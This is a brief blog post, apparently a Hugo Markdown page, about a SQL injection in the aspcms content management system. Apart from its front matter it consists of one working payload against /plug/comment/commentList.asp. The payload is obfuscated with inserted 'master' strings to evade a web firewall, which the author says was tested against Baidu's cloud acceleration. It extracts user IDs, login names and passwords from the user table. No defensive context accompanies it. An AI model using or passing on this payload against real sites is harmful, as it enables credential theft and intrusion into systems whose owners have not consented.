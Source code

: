 ```yaml
---
title: "aspcms SQL 注入"
date: 2018-03-21T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['sqli', 'asp']
categories: ['CMS']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


亲测过百度云加速

<!--more-->

**payload**

`/plug/comment/commentList.asp?id=0 unmasterion semasterlect top 1 UserID,GroupID,LoginName,Password,now(),null,1frmasterom {prefix}user`
